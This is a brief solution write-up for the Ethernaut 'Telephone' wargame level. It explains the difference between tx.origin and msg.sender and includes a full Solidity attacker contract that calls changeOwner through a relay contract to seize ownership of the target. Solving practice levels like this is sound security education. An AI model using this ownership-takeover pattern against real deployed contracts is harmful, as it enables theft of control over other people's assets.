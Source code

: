 # [Telephone](https://ethernaut.openzeppelin.com/level/0x0b6F6CE4BCfB70525A31454292017F640C10c768)

The `tx.origin` is the address that creates the transaction, and `msg.sender` is the sender of the current message. As such, `tx.origin == msg.sender` is **true** if message sender is an ethereum account; or **false** if the message sender is a contract. So, we want `tx.origin != msg.sender` to become the owner of the target, we just need to write a contract and call that function.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone { 
  function changeOwner(address _owner) external;
}

contract Attacker {
  Telephone telephoneTarget;

  constructor(address _target) {
    telephoneTarget = Telephone(_target);
  }

  function pwn() public {
    require(msg.sender == tx.origin, "Who is attacking? :D");
    telephoneTarget.changeOwner(tx.origin);
  }
}
```
